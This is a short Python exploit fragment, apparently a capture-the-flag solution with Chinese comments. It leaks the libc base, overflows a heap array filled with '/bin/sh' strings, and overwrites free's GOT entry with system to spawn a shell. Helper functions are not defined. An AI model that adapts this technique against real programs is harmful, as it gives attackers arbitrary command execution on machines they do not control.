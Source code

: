 ```python
# 泄露libc
shw(-263021)
libc_base = ga() - libc.sym['puts']
success("libc base: " + hex(libc_base))

# heap_arr 溢出
for i in range(18):
    add(0x10, b'/bin/sh')
# size为0x602018
add(free_got, b'h')

edt(17, p64(libc_base + libc.sym['system']))
rmv(0)

pi()
pause()
```

